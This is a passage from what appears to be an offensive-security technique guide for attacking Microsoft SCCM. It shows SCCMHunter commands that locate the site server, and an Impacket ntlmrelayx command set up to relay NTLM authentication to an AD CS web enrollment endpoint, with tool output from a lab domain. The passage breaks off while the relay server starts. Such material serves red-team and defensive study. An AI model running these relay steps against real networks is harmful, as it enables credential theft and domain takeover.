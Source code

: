 2. Use `SCCMHunter` to  profile SCCM infrastructure and identify the primary site server:

    ```
    # python3 sccmhunter.py find -d <DOMAIN_FQDN> -dc-ip <DC_FQDN> -u <USERNAME> -p <PASSWORD> -debug
    SCCMHunter v1.0.3 by @garrfoster
    [15:00:29] DEBUG    [*] Database ready.                                                                                                                                                            [15:00:29] DEBUG    [+] Bind successful ldap://DC.APERTURE.LOCAL:389 - cleartext                                                                                                                   [15:00:29] INFO     [*] Checking for System Management Container.                                                                                                                                  [15:00:29] INFO     [+] Found System Management Container. Parsing DACL.                                                                                                                           [15:00:30] INFO     [+] Found 1 computers with Full Control ACE                                                                                                                                    [15:00:30] INFO     [*] Querying LDAP for published Sites and Management Points                                                                                                                    [15:00:30] INFO     [+] Found 1 Management Points in LDAP.                                                                                                                                         [15:00:30] INFO     [*] Searching LDAP for anything containing the strings 'SCCM' or 'MECM'                                                                                                        [15:00:30] INFO     [-] No results found.                                                                                                                                                          [15:00:30] INFO     Site Servers Table                                                                                                                                                             [15:00:30] INFO     
    +----------------------------+------------+-------+-----------------+--------------+---------------+----------+---------+                                                                          
    | Hostname                   | SiteCode   | CAS   | SigningStatus   | SiteServer   | SMSProvider   | Config   | MSSQL   |                                                                          +============================+============+=======+=================+==============+===============+==========+=========+                                                                          
    | site-server.aperture.local |            |       |                 | True         |               |          |         |                                                                          
    +----------------------------+------------+-------+-----------------+--------------+---------------+----------+---------+     
    ```

3. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the certificate enrollment web interface on the certificate authority:

    ```
    # python3 ntlmrelayx.py -t http://adcs.aperture.local/certsrv/certfnsh.asp --adcs -smb2support                                                   
    Impacket v0.12.0.dev1+20240502.235035.cb8467c3 - Copyright 2023 Fortra                                                                                                                                                                                                                                                                                                                                
    [*] Protocol Client HTTP loaded..                                                                                                                                                                  
    [*] Protocol Client HTTPS loaded..                                                                                                                                                                 
    [*] Protocol Client RPC loaded..                                                                                                                                                                   
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
